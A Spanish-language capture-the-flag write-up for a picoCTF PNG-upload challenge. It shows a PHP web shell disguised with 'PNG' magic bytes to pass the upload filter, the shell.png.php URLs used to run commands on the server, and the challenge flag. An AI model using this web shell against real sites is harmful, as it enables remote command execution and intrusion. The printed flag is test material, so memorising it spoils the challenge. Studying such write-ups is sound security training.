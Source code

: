#notas_hacking #web
# Reto
## Descripción
I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:56505/)!
## Solución
cargamos una imagen en el sitio, vemos que se sube correctamente, vemos en el archivo `robots.txt` hay una ruta que no se indexa `/uploads`
```txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
probamos esta ruta con `http://atlas.picoctf.net:56505/uploads/dog.png` y podemos ver la imagen que se había subido, y en la ruta con `/instructions.txt` aparece
```txt
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
quiere decir que verifica que tenga `".png"` y que los bytes mágicos (primeros bytes en hexadecimal) digan `"PNG"`, entonces vamos a ejecutar una `web shell`, pero añadiremos los bytes mágicos a esta para que se pueda subir como `png`
```php
PNG
<?php
if(isset($_REQUEST['cmd'])) 
    system($_REQUEST['cmd']);
?>
```
y ejecutamos una vez subida la `web shell` desde la terminal en la ruta `/uploads`
```url
atlas.picoctf.net:56505/uploads/shell.png.php?cmd=ls
atlas.picoctf.net:56505/uploads/shell.png.php?cmd=ls ..
atlas.picoctf.net:56505/uploads/shell.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```
`PNG /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */`
## Notas

## Referencias
